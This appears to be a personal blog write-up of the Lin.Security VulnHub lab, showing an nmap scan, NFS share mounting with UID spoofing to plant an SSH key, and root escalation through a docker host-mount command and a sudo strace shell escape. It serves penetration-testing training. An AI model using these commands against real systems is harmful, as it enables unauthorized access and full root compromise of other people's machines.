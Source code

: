 ```yaml
---
layout: default
title : muzec - Lin.Security Writeup
---
```


Here at in.security we wanted to develop a Linux virtual machine that is based, at the time of writing, on an up-to-date Ubuntu distro (18.04 LTS), now we are in 2021 damn it old but suffers from a number of vulnerabilities that allow a user to escalate to root on the box. This has been designed to help understand how certain built-in applications and services if misconfigured, may be abused by an attacker.

We have configured the box to simulate real-world vulnerabilities (albeit on a single host) which will help you to perfect your local privilege escalation skills, techniques and toolsets. There are a number challenges which range from fairly easy to intermediate level and we’re excited to see the methods you use to solve them!

The image is just under 1.7 GB and can be downloaded using the link above. On opening the OVA file a VM named lin.security will be imported and configured with a NAT adapter, but this can be changed to bridged via the the preferences of your preferred virtualisation platform.

To get started you can log onto the host with the credentials: `bob/secret` [NOTE:- am not going to use the credentials] .

![image](https://user-images.githubusercontent.com/69868171/125940993-5f643978-948d-4fe3-891e-b3c461773e57.png)


We always start with an nmap scan.....

```Nmap -sC -sV -oA nmap <Target-IP>```


```
# Nmap 7.91 scan initiated Mon Jun 14 16:33:32 2021 as: nmap -sC -p- -sV -oA nmap 172.16.139.211
Nmap scan report for 172.16.139.211
Host is up (0.00022s latency).
Not shown: 65528 closed ports
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 7a:9b:b9:32:6f:95:77:10:c0:a0:80:35:34:b1:c0:00 (RSA)
|   256 24:0c:7a:82:78:18:2d:66:46:3b:1a:36:22:06:e1:a1 (ECDSA)
|_  256 b9:15:59:78:85:78:9e:a5:e6:16:f6:cf:96:2d:1d:36 (ED25519)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      35839/tcp6  mountd
|   100005  1,2,3      43267/tcp   mountd
|   100005  1,2,3      50857/udp   mountd
|   100005  1,2,3      50992/udp6  mountd
|   100021  1,3,4      37895/tcp6  nlockmgr
|   100021  1,3,4      40437/tcp   nlockmgr
|   100021  1,3,4      41175/udp   nlockmgr
|   100021  1,3,4      44913/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  3 (RPC #100227)
40437/tcp open  nlockmgr 1-4 (RPC #100021)
43267/tcp open  mountd   1-3 (RPC #100005)
51101/tcp open  mountd   1-3 (RPC #100005)
54251/tcp open  mountd   1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun 14 16:33:41 2021 -- 1 IP address (1 host up) scanned in 8.37 seconds
```

We have some really interesting ports here also we are provide with credentials to log in with SSH but damn that is lame man if you decided to use it without actually finding another way in without the credentials. Now let kick of our enumeration on the target.

### POSSIBLE WAY IN NFS 2049

Checking for NFS share with below command;

```
showmount -e 172.16.139.211
```
Now we have confirm we have a share to mount now let go ahead.


![image](https://user-images.githubusercontent.com/69868171/125942070-48825124-c849-496d-a8fd-f83a7e8fa00e.png)


```
mkdir /tmp/peter
mount -v -t  nfs  -o vers=3,proto=tcp,nolock 172.16.139.211:/home/peter /tmp/peter
df -k
```

![image](https://user-images.githubusercontent.com/69868171/125942192-fdc8ccbb-5737-4b1f-bebb-8a1547c872cf.png)


Now let access the mounted folder to see what we have.

```
┌──(root💀Muzec-Security)-[/home/muzec/Documents/Vulnhubs/lin]
└─# cd /tmp/peter
                                                                                                                                                                       
┌──(root💀Muzec-Security)-[/tmp/peter]
└─# ls -la
total 48
drwxr-xr-x  6 1001 1005  4096 Jun 15 00:42 .
drwxrwxrwt 20 root root 12288 Jul 16 09:40 ..
-rw-------  1 root root    65 Jun 15 00:42 .bash_history
-rw-r--r--  1 1001 1005   220 Jul  9  2018 .bash_logout
-rw-r--r--  1 1001 1005  3771 Jul  9  2018 .bashrc
drwx------  2 1001 1005  4096 Jul 10  2018 .cache
-rw-rw-r--  1 1001 1005     0 Jul 10  2018 .cloud-locale-test.skip
drwx------  3 1001 1005  4096 Jul 10  2018 .gnupg
drwxrwxr-x  3 1001 1005  4096 Jul 10  2018 .local
-rw-r--r--  1 1001 1005   807 Jul  9  2018 .profile
drwxr-xr-x  2 1001 1001  4096 Jun 15 00:38 .ssh
```

We now see we have access to `peter` home directory also the `.SSH` .

![image](https://user-images.githubusercontent.com/69868171/125945606-5547531c-d2ae-4ea9-95b4-5c431b4d37c7.png)

But i can't seems to write to the `authorized_keys` using the root user now let try something cool.

![image](https://user-images.githubusercontent.com/69868171/125945854-da461c1c-0911-4016-bc0c-b04efb35676d.png)

Back to the `peter` folder i note down the user UID number now let try creating a user with the same UID number.

![image](https://user-images.githubusercontent.com/69868171/125946118-6b3431b5-ce37-4bad-ac0d-7901a6566265.png)

Seems i don't need to add the UID lol since i only have one user which is `muzec` with UID 1000 so `peter` will be UID 1001. Now we are in let to add the `authorized_keys` again.

![image](https://user-images.githubusercontent.com/69868171/125946393-0bb5af01-bc3f-4d91-a746-73aab782551e.png)

It works now that what am talking about let use our `SSH private key` to SSH into the target.

![image](https://user-images.githubusercontent.com/69868171/125946713-80a7c578-21e5-49ac-a743-c71d48318b56.png)

We are in and seems we can run docker to obtain root shell.

### Privilege Escalation

`sudo -l` and we can run `/usr/bin/strace` to obtain root also after docker let try using the 2 method.

### DOCKER

```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

![image](https://user-images.githubusercontent.com/69868171/125948258-71f4bb77-43f7-49b1-9680-4055e65611a6.png)

We are root.

### STRACE

```
sudo strace -o /dev/null /bin/sh
```

![image](https://user-images.githubusercontent.com/69868171/125948673-6f31ccf3-5132-47b4-b4bf-f1d8a0a7b0dd.png)

We are done.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
